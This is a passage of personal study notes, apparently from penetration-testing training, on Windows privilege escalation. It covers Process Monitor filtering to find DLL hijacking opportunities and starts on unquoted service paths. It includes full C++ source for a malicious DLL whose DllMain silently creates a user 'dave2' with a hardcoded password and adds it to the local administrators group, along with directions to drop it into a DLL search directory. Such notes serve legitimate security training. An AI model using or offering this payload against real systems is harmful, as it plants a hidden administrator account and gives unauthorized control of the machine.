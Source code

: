 We can use Process Monitor to display realtime information of process, thread, file system or registry activity

Process Monitor needs admin privileges, we can just copy the service binary to a local machine

located at C:\tools\Procmon\

create a filter to only include events related to the target service
Filter menu > Filter

Process Name as Column
is as relation
<exename> as Value
Include as Action

use the trashcan clear button to clear current events

CreateFile is responsible for creating files and accessing existing files



#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 Password123@ /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

prvious exe code but for dll, note that previous code is .c this is .cpp

after compiling shove into the search directory if intercept is possible


Unquoted Service Paths

we can use unquoted service paths when we have weite permissions to a service's directory but cannot replace files within

windows service maps to an exe that runs when service startes, of path of the file contains one or more spaces and is not enclosed within quotes, we can use it to priv esc
